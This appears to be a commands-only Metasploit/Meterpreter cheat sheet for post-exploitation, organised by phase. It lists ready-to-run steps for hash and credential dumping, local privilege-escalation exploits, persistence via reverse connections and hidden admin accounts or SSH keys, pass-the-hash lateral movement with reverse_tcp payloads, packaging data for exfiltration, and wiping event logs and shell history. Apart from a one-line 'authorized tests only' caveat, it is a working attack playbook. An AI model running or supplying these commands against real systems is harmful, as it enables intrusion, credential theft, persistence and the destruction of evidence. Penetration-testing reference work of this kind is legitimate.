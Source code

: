 # Metasploit / Meterpreter Cheat Sheet (Field — Pure Commands)

> Ultra-compact reference: commands only, grouped by phase. Replace `<...>` with values.

---

## Legend

* `SESSION`, `PID`, `RHOSTS`, `LHOST`, `LPORT` — replace as needed
* `meterpreter >` prompt lines are Meterpreter; other lines are `msf6 >` or shell.

---

## 1 — Stabilize / Upgrade / Migrate

```bash
# background session
meterpreter > background

# upgrade shell -> meterpreter
msf6 > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION <SESSION>
msf6 post(multi/manage/shell_to_meterpreter) > run

# sysinfo / uid / privs
meterpreter > sysinfo
meterpreter > getuid
meterpreter > getprivs

# check VM
meterpreter > run post/windows/gather/checkvm

# list processes and migrate
meterpreter > ps
meterpreter > migrate <PID>
```

---

## 2 — Quick Enumeration (Windows)

```bash
# local exploit suggester
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION <SESSION>
msf6 post(multi/recon/local_exploit_suggester) > run

# domain / users / logged-on
msf6 > use post/windows/gather/enum_domain
msf6 > set SESSION <SESSION>
msf6 > run

msf6 > use post/windows/gather/enum_logged_on_users
msf6 > set SESSION <SESSION>
msf6 > run

# hashes / creds
msf6 > use post/windows/gather/hashdump
msf6 > set SESSION <SESSION>
msf6 > run

msf6 > use post/windows/gather/credentials/sso
msf6 > set SESSION <SESSION>
msf6 > run
```

---

## 2 — Quick Enumeration (Linux)

```bash
msf6 > use post/linux/gather/enum_system
msf6 > set SESSION <SESSION>
msf6 > run

msf6 > use post/linux/gather/enum_configs
msf6 > set SESSION <SESSION>
msf6 > run

msf6 > use post/linux/gather/enum_ssh
msf6 > set SESSION <SESSION>
msf6 > run
```

---

## 3 — Privilege Escalation (Windows)

```bash
# automated/local exploits
msf6 > use exploit/windows/local/bypassuac_eventvwr
msf6 > set SESSION <SESSION>
msf6 > run

msf6 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
msf6 > set SESSION <SESSION>
msf6 > run

# misc checks (Meterpreter)
meterpreter > reg queryval -k HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer -v AlwaysInstallElevated
meterpreter > run post/windows/gather/enum_services
meterpreter > run post/windows/gather/enum_drivers
```

---

## 3 — Privilege Escalation (Linux)

```bash
msf6 > use exploit/linux/local/dirty_cow
msf6 > set SESSION <SESSION>
msf6 > run

msf6 > use exploit/linux/local/sudo_baron_samedit
msf6 > set SESSION <SESSION>
msf6 > run

# manual
meterpreter > shell
$ find / -perm -4000 -type f 2>/dev/null
$ getcap -r / 2>/dev/null
$ ls -la /etc/cron* /var/spool/cron/
```

---

## 4 — Persistence

```bash
# Meterpreter persistence (Windows)
meterpreter > run persistence -U -i 300 -p <LPORT> -r <LHOST>

# Create local admin (Windows)
meterpreter > shell
C:\> net user pentester P@ssw0rd123! /add
C:\> net localgroup administrators pentester /add

# Add SSH key (Linux)
meterpreter > shell
$ echo "ssh-rsa AAAA..." >> /root/.ssh/authorized_keys
```

---

## 5 — Lateral Movement / Pivot

```bash
# psexec (pass-the-hash)
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS <RHOST>
msf6 exploit(windows/smb/psexec) > set SMBUser <USER>
msf6 exploit(windows/smb/psexec) > set SMBPass <NTLM_HASH or PASS>
msf6 exploit(windows/smb/psexec) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set LHOST <LHOST>
msf6 exploit(windows/smb/psexec) > set LPORT <LPORT>
msf6 exploit(windows/smb/psexec) > run

# internal scanning
meterpreter > run post/multi/gather/tcpudp_scanner RHOSTS=<NET_CIDR> PORTS=22,80,135,139,443,445,3389
meterpreter > run post/multi/gather/arp_scanner RHOSTS=<NET_CIDR>
```

---

## 6 — Data Collection & Exfil

```bash
# search files (Windows)
meterpreter > search -f *.docx *.pdf *.xlsx *.db *.config -d C:\\

# download file
meterpreter > download <remote_path> <local_path>

# package & encode (Windows shell)
meterpreter > shell
C:\> tar -czf C:\temp\loot.tar.gz C:\path\to\data
C:\> certutil -encode C:\temp\loot.tar.gz C:\temp\loot.b64
```

---

## 7 — Cleanup / OPSEC

```bash
# clear Windows event logs
meterpreter > run event_manager -c

# timestomp file
meterpreter > timestomp <file_path> -f "01/01/2020 12:00:00"

# Linux cleanup
meterpreter > shell
$ echo "" > /var/log/auth.log
$ echo "" > /var/log/syslog
$ history -c
```

---

## Quick Favorites (one-liners)

```bash
# upgrade shell -> meterpreter (one-liner MSF resource)
msf6 > run post/multi/manage/shell_to_meterpreter SESSION=<SESSION>

# run local exploit suggester
msf6 > run post/multi/recon/local_exploit_suggester SESSION=<SESSION>

# persist + create user (Windows)
meterpreter > run persistence -U -i 300 -p <LPORT> -r <LHOST>; meterpreter > shell; net user pentester P@ssw0rd123! /add; net localgroup administrators pentester /add
```

---

## Final Notes

* For **authorized** tests only.
* Replace placeholders before running.
* This sheet omits explanations — it’s a direct command reference.

---
